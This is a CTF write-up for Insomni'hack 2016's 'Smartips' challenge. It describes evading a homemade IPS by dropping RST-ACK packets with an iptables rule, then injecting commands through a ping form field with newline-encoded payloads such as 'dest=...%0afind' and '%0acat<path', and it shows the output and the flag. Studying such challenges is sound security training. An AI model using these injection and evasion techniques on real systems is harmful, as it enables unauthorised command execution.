 #Insomni'hack CTF 2016 : Smartips

**Category:** Network **Level:** easy

> Description : Our smartcat was not so secure so we decided to add a powerful homemade smart IPS. No chance for you to have a flag now! :-)

##Write-up

We got a debugging web interface for this 'homemade IPS' which allow to do a ping from the server behind the IPS. Quickly, I understood that the IPS was filtering the IP input for the ping with a white list wich accept only numbers, letters and points. When an input have the right chars but a wrong or not accessible IP, we got :

```
Error running ping -c 1 11.11.11.11
```

This error is similare to a challenge from the teaser : [insomnihack-ctf-teaser-smartcat1-writeup](https://highon.coffee/blog/insomnihack-ctf-teaser-smartcat1-writeup/)

We were banging our head on the wall trying every kind of character class to evade the IPS and getting rejected mercilessly everytime. At that point, calling for reinforcements and re-reading the challenge description, we got suggestion from Beuc to attempt some packet filtering. After some analyse with wrong input that killed the connection "catched by the IPS", we saw that when we receive a 'RST ACK', the IPS continue to communicate even with the 'RST ACK'!

![alt tag](https://github.com/hexpresso/WU-2016/blob/master/insomnihack-ctf-2016/network/Smartips/smartips_capture.png)

So the idea was to drop 'RST ACK' packets to continue to communicate with the server and then to bypass the homemade IPS rules.

```
iptables -A INPUT -p TCP --tcp-flags ALL RST,ACK -s 10.13.39.30 -j DROP
```

Then, I tried to insert the same command than is the teaser writeup `dest=192.168.5.105%0afind`

Bingo !

```
PING 192.168.5.105 (192.168.5.105) 56(84) bytes of data.
64 bytes from 192.168.5.105: icmp_seq=1 ttl=63 time=0.437 ms
--- 192.168.5.105 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.437/0.437/0.437/0.000 ms
.
./img
./img/cat.jpg
./.htaccess
./this
./this/smart
./this/smart/ips
./this/smart/ips/is
...
./this/smart/ips/is/not/so/smart/so/you/can/find/the/flag/here/flag
./index.py
```

Then `dest=192.168.5.105%0acat<./this/smart/ips/is/not/so/smart/so/you/can/find/the/flag/here/flag`

**Flag:** INS{$hitty_IPS_i$_n0t_so_U$eful}

[zbetcheckin](https://twitter.com/zbetcheckin)
